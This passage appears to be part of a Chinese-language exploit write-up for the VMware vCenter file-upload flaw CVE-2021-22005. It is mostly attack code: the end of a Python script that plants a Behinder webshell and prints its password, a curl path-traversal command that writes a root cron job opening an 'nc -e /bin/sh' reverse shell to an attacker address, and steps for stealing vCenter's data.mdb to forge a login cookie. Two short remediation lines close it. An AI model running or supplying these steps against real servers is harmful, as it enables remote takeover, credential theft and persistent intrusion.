 ```python
          "User-Agent": "Mozilla/5.0", 
          "X-Deployment-Secret": "abc", 
          "Content-Type": "application/json", 
          "Connection": "close"}
 json_data ={"contextData": "a3", "manifestContent": manifestData, "objectId": "a2"}
 requests.post(url, headers=headers, json=json_data, verify=False)
 #webshell连接地址
 url = "%s/idm/..;/%s" % (target, shell_name)
 code = requests.get(url=url, headers=headers,verify=False).status_code
 if code != "404":
   print("webshell地址: %s" % url)
   print("[*]冰蝎3.0 Webshell连接密码: rebeyond" )
 
 else:
   print("未获取到webshell地址")
 
 
if __name__ == '__main__':
 exec()
```

反弹Shell：

```
curl -kv "https:/xx.xx.xx.xx/analytics/telemetry/ph/api/hyper/send?_c=&_i=/../../../../../../etc/cron.d/$RANDOM" -H Content-Type: -d "* * * * * root nc -e /bin/sh your-ip your-port "
```

### vCenter cookie 读取登录

存储关键身份验证信息数据位置：

```
# Linux
/storage/db/vmware-vmdir/data.mdb
```

```
#Windows
C:\ProgramData\VMware\vCenterServer\data\vmdird\data.mdb
```

解密脚本：

-  https://github.com/horizon3ai/vcenter_saml_login

运行得到 VSPHERE-UI-JESSIONID：

```
python3 vcenter_saml_login.py -p data.mdb -t your-ip
```

## 修复方案

1. 升级VMware vCenter Server 至最新版本。

2. 针对 CVE-2021-22005 VMware vCenter Server 任意文件上传漏洞，可按照 https://kb.vmware.com/s/article/85717 相关措施进行缓解。

